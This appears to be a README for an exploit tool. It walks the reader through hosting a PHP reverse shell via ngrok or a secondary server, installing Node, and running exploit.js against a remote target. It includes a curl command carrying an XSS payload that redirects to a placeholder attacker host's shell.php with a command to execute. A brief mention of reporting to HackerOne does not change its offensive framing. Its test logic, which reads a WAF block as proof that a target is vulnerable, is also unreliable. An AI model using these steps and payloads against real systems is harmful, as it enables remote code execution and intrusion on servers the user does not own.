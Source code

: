 In order to use this test file, please follow the instructions below:

First, you'll need to create a php reverse shell payload and tunnel this through ngrok. You'll require a secondary server or to use ngrok to host the file that will be uploaded to the remote server as well. Once you have this ready then you can proceed (or you can use the reverse shell code from my GitHub. If you choose to use my php shell code. You can either configure it with netcat listener or you can create an output file to your server for the reverse listener to output the information captured from the remote server that's being attacked with the reverse shell) 

Dependencies required are npm and node.js

sudo su
apt-get update
apt-get install nodejs
apt-get install npm

Once done. Clone the repository and follow these commands:

npm init -y
npm install http

Finally, run the exploit using this command:

node exploit.js

Done.

Please note that if you receive any errors such as 301 Permanently Moved by CloudFlare then it's obviously CloudFlare that's blocking the endpoint from receiving the request. Nonetheless, this test will work in other ways.

To check if a WAF is responsible for the 301 Permanently Moved, confirm with a curl command: 

curl -X POST -H "Content-Type: application/json" -d '{"device_id":"<img src=x onerror=\"window.location='http://[SECONDARY HOST OF THE REVERSE SHELL OR NGROK CONTAINING THE PAYLOAD TO EXECUTE TO REMOTE SERVER]/shell.php?cmd=$(whoami)'\">"}' https://[HOSTNAME OF THE VULNERABLE ENDPOINT]/[VULNERABLE ENDPOINT]

If you receive an error from the WAF saying that the request was blocked due to the execution of an arbitrary code such as SQL then the target is vulnerable and you can report it to HackerOne.
